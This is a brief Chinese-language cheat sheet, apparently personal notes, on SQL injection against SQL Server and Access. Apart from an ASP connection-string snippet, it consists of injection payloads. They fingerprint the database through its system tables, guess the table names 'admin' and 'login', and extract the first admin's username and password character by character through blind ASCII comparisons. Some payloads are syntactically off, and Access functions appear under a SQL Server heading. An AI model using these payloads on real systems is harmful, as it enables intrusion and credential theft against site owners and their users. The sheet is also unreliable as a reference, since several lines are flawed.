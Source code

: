 # sqlserver
## 注入点寻找，判断和access一样
## 配置文件
`<%` \
`set conn =server.createobject("adodb.connection")` \
`conn.open "provider=sqloledb;source=local;uid=sa;pwd=*****;database-name"` \
`%>`
## 判断数据库
`and 1=(select count(*) from sysobjects)>0`  mssql数据库 \
`and 1=(select count(*) from msysobjects)>0`  access数据库
## 猜表名
`and 1=(select count(*) from admin)` \
`and 1=(select count(*) from login)`
## 猜列名
`and 1=(select count(user) from admin)` \
`and 1=(select count(password) from admin)`
## 猜第一个user的长度
`and 1=(select top 1 len(user) from admin)` \
`and 1=(select top 1 len(password) from admin)`
## 猜ascii值，再转成字符
`and 1=(select top 1 asc(mid(user,1,1)) from admin)>96` 第一个user的第一个字符的ascii \
`and 1=(select top 1 asc(mid(user,2,1)) from admin)>55` 第一个user的第二个字符的ascii \
`and 1=(select top 1 asc(mid(password,1,1)) from admin)>100` 第一个user对应的密码的第一个字符
